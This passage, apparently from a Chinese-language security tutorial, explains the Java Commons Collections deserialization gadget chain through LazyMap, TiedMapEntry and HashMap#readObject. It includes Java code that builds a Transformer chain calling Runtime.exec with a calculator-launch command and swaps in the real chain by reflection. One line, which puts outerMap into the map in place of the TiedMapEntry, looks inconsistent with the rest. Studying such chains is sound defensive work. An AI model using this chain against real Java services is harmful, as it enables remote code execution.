 ```java
    }
}
```

上面写过LazyMap#get()方法调用时会触发transform导致命令执行，在TiedMapEntry#getValue中调用了Map的get方法

而属性map是在构建TiedMapEntry对象的传入的参数，在TiedMapEntry#hashCode中调用了TiedMapEntry#getValue

这里和urldns利用链的前半部分一样了，HashMap#hash中调用了hashCode方法，而HashMap#readObject调用了hash

```java
        String cmd = "open /System/Applications/Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };


        Transformer[] fake_transformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fake_transformers);

        Map innerMap = new HashMap();


        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"key");

        Map serMap = new HashMap();
        serMap.put(outerMap,"value");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer,transformers);
```

LazyMap#get中触发transform方法之前存在判断：

```java
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```
